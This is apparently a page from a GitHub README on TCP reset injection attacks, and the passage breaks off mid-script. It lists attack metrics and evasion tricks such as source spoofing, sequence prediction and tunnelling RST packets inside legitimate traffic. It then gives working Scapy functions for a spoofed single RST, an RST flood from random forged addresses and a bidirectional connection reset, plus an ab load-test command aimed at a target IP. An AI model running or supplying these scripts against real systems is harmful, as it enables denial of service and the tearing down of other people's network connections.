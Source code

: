 ```bash
ab -n 100 -c 10 http://target_ip/ | grep "Failed requests"
```

## 📈 Attack Metrics
- **Packet Rate**: 1-100 packets/sec (typically low volume)
- **Success Rate**: 60-95% (depends on sequence accuracy)
- **Impact Duration**: Immediate (connection termination)
- **Recovery Time**: 1-30 seconds (reconnection time)

## 🔄 Advanced Evasion
- **Sequence Number Prediction**: Use statistical analysis
- **Timing Correlation**: Send RST during data transmission
- **Source Spoofing**: Rotate source addresses
- **Multi-vector**: Combine with other TCP attacks
- **Protocol Tunneling**: Hide RST within legitimate traffic

## 🔬 Attack Analysis
### Scapy Script Examples:
```python
from scapy.all import *
import random
import time

def rst_attack_single(target_ip, target_port, src_ip, src_port, seq_num):
    """Single RST packet attack"""
    rst_packet = IP(src=src_ip, dst=target_ip) / \
                 TCP(sport=src_port, dport=target_port, 
                     flags="R", seq=seq_num)
    send(rst_packet, verbose=0)

def rst_flood(target_ip, target_port, duration=60):
    """RST flood with random parameters"""
    end_time = time.time() + duration
    while time.time() < end_time:
        src_ip = ".".join(str(random.randint(1,254)) for _ in range(4))
        src_port = random.randint(1024, 65535)
        seq_num = random.randint(1, 4294967295)
        
        rst_packet = IP(src=src_ip, dst=target_ip) / \
                     TCP(sport=src_port, dport=target_port,
                         flags="R", seq=seq_num)
        send(rst_packet, verbose=0)
        time.sleep(0.01)

def bidirectional_rst(client_ip, server_ip, client_port, server_port, 
                     client_seq, server_seq):
    """Bidirectional RST attack"""
    # Reset from server perspective
    rst1 = IP(src=server_ip, dst=client_ip) / \
           TCP(sport=server_port, dport=client_port,
               flags="R", seq=server_seq)
    
    # Reset from client perspective  
    rst2 = IP(src=client_ip, dst=server_ip) / \
           TCP(sport=client_port, dport=server_port,
               flags="R", seq=client_seq)
    
    send([rst1, rst2], verbose=0)

def sequence_window_scan(target_ip, target_port, base_seq, window_size=65536):
```